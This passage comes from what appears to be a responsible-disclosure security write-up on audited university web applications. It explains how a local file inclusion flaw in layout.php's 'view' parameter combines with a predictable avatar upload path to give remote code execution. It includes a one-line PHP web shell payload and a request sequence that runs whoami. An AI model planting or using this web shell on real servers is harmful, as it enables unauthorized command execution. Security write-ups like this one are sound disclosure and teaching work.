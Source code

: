 > Later, it was discovered that those files were also being served publicly without any restrictions, so any user who knew or guessed their route could access them directly.


While LFR enables file access, any PHP embedded in the included file will also execute, turning the Local File Read into code execution if attacker-controlled content exists at a known path.


In another audited application, the profile picture upload feature stored images in predictable locations that were publicly accessible through user profiles. Although content-type checks prevented these images from executing PHP code when accessed directly, using the vulnerable view parameter to include them forced the server to interpret the file as PHP code.


So, after uploading the following avatar, which would be stored on the server at `/var/www/html/draco/images/avatares/104.jpg`:


```php
<?php echo system($_REQUEST["cmd"]);?>
```


Requesting the vulnerable `layout.php` file with `view=/var/www/html/draco/images/avatares/104.jpg` and `cmd=whoami` would execute the command `whoami` on the server and include its output in the response, demonstrating Remote Code Execution.


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant S as UPM Server


    A->>S: Upload avatar (104.jpg)<br/>Contains a PHP web shell
    activate S
    S->>S: Save to<br/>/var/www/html/draco/images/avatares/104.jpg
    deactivate S


    A->>S: GET /layout.php?view=<br/>/var/www/html/draco/images/avatares/104.jpg<br/>&cmd=whoami
    activate S
    S->>S: include(view) -> executed as PHP<br/>system(whoami)
    S-->>A: 200 OK<br/>...<br/>www-data<br/>...
    deactivate S
```


## Conclusion


I hope the different scenarios were interesting.


Thanks to the Universidad Politécnica de Madrid, and especially to my teacher, José Luis Fuertes Castro, for the opportunity and supporting a responsible disclosure process.


If you have any questions about any of the attacks, feel free to reach out.